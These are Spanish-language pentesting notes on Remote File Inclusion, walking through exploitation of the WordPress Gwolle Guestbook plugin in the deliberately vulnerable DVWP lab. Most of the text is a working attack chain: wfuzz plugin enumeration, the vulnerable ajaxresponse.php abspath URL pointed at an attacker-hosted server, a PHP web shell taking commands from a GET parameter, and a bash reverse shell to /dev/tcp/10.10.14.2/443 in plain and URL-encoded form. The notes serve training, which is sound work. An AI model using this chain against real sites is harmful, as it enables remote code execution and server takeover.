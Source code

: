 # Remote File Inclusion (RFI)

Tags: #RFI #OWASP #Explotacion 

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

-   **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)


## Código 

Para descubrir si tiene el Plugin de **gwolle-gb** 
```bash
❯ wfuzz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt http://❮IP❯/FUZZ

	# hc -> HideCode 404
	# c -> Formato colorido
	# w -> Ruta del diccionario
	# FUZZ -> Donde va a insertar las palabras el diccionario
	# t -> Lanzar tareas en paralelo al mismo tiempo
```
**Nota**: El PHP de la victima debe de tener '**allow_url_include = 'ON'**', de lo contrario no va a funcionar
Podemos explotar la vulnerabilidad agregando desde '/wp-content/' esto a la url de la pagina web:
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/    # Colocamos nuestra IP y lo que hara ese comando es intentar cargar un archivo 'GET /wp-load.php HTTP/1.0'
```

Debemos de tener activo un servidor http en nuestra maquina de atacante 
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

Por lo que debemos de crear ese archivo para cargar comandos y también podemos colocarle una ReverShell.
```php
❯ nvim wp-load.php
	<?php
		system("whoami");
	?>

	// hostname -I
```

O podemos controlar el comando
```php
❯ nvim wp-load.php
	<?php
		system($_GET["cmd"]);
	?>
```

En la url al final debemos de colocar: **&cmd='comando'**
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=whoami
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"     # -> La manera correcta que es url-encodeado
```